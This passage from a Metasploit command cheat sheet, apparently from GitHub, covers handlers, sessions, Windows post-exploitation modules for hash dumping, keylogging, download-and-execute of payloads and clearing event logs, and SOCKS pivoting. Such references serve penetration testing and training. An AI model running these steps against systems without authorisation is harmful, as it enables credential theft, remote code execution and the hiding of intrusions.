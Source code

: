 11. **Listening and Handlers**
    - **exploit -j -z**: Run an exploit as a job in the background.
    - **set ExitOnSession false**: Do not terminate the exploit after a session has been created (useful for multi-target exploits).
    - **sessions -K**: Kill all active sessions.
12. **Working with Sessions**
    - **sessions -i [id]**: Interact with a specific session.
    - **sessions -u [id]**: Upgrade a normal shell to a Meterpreter shell.
    - **sessions -k [id]**: Kill a specific session.

**Post Exploitation**

1. **Gather Credentials**
    
    ```
    use post/windows/gather/hashdump
    set SESSION [SessionID]
    run
    
    ```
    
2. **Capture Keystrokes**
    
    ```
    use post/windows/capture/keylog_recorder
    set SESSION [SessionID]
    run
    
    ```
    
3. **Download and Execute Payloads**
    
    ```
    use post/windows/manage/download_exec
    set SESSION [SessionID]
    set URL [PayloadURL]
    set EXE [ExecutableName]
    run
    
    ```
    
4. **Clear Event Logs**
    
    ```
    use post/windows/manage/clear_event_logs
    set SESSION [SessionID]
    run
    
    ```
    

**Pivoting**

- **Setup a SOCKS Proxy**
    
    ```
    use auxiliary/server/socks_proxy
    set SRVHOST [LocalHost]
    set SRVPORT [LocalPort]
    run
    